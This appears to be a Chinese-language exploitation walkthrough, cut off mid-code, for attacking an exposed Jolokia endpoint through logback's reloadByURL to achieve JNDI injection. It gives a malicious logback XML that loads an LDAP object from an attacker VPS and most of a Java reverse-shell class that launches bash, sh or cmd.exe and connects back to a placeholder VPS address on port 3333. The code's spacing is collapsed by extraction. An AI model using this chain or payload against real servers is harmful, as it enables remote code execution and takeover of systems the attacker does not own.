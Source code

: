 漏洞利用：访问/jolokia/list接口，查看是否存在ch.qos.logback.classic，也就是logback库下的reloadByURL可以造成JNDI注入  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1Hlt4ib8n8uSibu5sQ4LVjInxUo7FeQ64jpOXLoOFd9PecvfabevUpcUoKw/640?wx_fmt=png&from=appmsg "null")  
  
步骤流程如下  
  
1、 在vps上放入xml文件进行加载，内容如下  
```
//文件内容如下
<configuration>
  <insertFromJNDI env-entry-name="ldap://VPS:1389/JNDIObject" as="appName" />
</configuration>
```  
  
2、 编写用来反弹shell的代码JNDIObject.java  
```
/** 运行
 *  javac -source 1.5 -target 1.5 JNDIObject.java
 *
 *  Build By LandGrey
 * */

import java.io.File;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

publicclassJNDIObject{
static{
try{
String ip ="your-vps-ip";
String port ="3333";//反弹shell端口
String py_path =null;
String[] cmd;
if(!System.getProperty("os.name").toLowerCase().contains("windows")){
String[] py_envs =newString[]{"/bin/python","/bin/python3","/usr/bin/python","/usr/bin/python3","/usr/local/bin/python","/usr/local/bin/python3"};
for(int i =0; i < py_envs.length;++i){
String py = py_envs[i];
if((newFile(py)).exists()){
                        py_path = py;
break;
}
}
if(py_path !=null){
if((newFile("/bin/bash")).exists()){
                        cmd =newString[]{py_path,"-c","import pty;pty.spawn(\"/bin/bash\")"};
}else{
                        cmd =newString[]{py_path,"-c","import pty;pty.spawn(\"/bin/sh\")"};
}
}else{
if((newFile("/bin/bash")).exists()){
                        cmd =newString[]{"/bin/bash"};
}else{
                        cmd =newString[]{"/bin/sh"};
}
}
}else{
                cmd =newString[]{"cmd.exe"};
}
Process p =(newProcessBuilder(cmd)).redirectErrorStream(true).start();
Socket s =newSocket(ip,Integer.parseInt(port));
InputStream pi = p.getInputStream();
InputStream pe = p.getErrorStream();
InputStream si = s.getInputStream();
```